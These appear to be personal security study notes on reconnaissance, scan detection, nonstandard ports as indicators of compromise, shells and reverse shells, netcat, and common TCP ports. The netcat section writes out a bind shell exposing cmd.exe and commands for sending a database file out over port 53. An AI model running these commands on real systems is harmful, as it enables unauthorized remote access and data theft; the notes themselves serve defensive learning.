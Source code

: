	- attacker gathers information about the target before attacking it
	- additional recon
- Authorized scan should only be performed from a restricted range of hosts!
	- We can authorize a range of IPs and ignore those ranges.
- IDS (Intrusion detection system)
	- identify scanning by detecting when the number of syn, syn/ack, and fin packets is not statistically balanced
	- if the balance is off, fires alarm for scanning
- Don’t panic if scan sweeps happen
	- “your ass is always out on the internet”
### Nonstandard Port Usage
- Internet Assigned Numbers Authority (IANA) keeps a list of well-known and registered TCP and UDP port mappings
	- Well known ports: 0-1023 ^well-known-ports
	- Registered Ports: 1024-49151 ^registered-ports
	- Dynamic Ports: 49152-65535 ^dynamic-ports
- legit applications will use well known and registered ports
- No comprehensive list of ports used by malware
	- check your dynamic ports that are constantly opened
- Non-standard Port:
	- TCP/IP application traffic over a port that is no the well-known or registered port established for that protocol
	- big red flag there
- IOCs
	- Use of a non-standard port when it already has a port
		- malware might use a non-standard port other than 53 for DNS
	- mismatched port/application traffic where non-standard traffic is communicated over a well-known or registered port
- Mitigations
	- White list ports on firewall for ingress and egress interfaces
	- configuration documentation should show which server ports are allowed on any given host type
	- configure detection rules to detect mismatched protocol usage over a standard port
- Shell
	- an attacker opens a listening port that exposes the command prompt on the local host and connects to that port from a remote host
- Reverse Shell
	- an attacker opens a listening port on the remote host and causes the infected host to connect to it
- Reverse Shells are more popular than Shells because traffic going out is a lot easier than traffic coming in.
- Netcat
	- reads and writes raw data over a network connection, mostly known for reverse shells
	- `nc -l -p 443 -e cmd.exe`
	- `nc [IP] [port]`
- at the end of the day, a shell is a shell, doesn't really matter what a reverse shell
- Netcat can also send and receive files
	- receiving data to dump into “databse.sql”: `nc -l -p 53 > database.sql`
	- sending the “databse.sql” over netcat: `type database.sql | nc [IP] [Port]`
### TCP Ports
- you gotta know your TCP ports
- time to learn your common ports
	- `21` - FTP
	- `22` - SSH/SFTP
	- `23` - TELNET
		- don’t use this man
	- `25` - SMTP
	- `53` - DNS
	- `80` - HTTP
	- `110` - POP3 
		- Post Office Protocol
	- `111` - RPCBIND 
		- Maps Remote Procedure Call services to port numbers in UNIX-like environment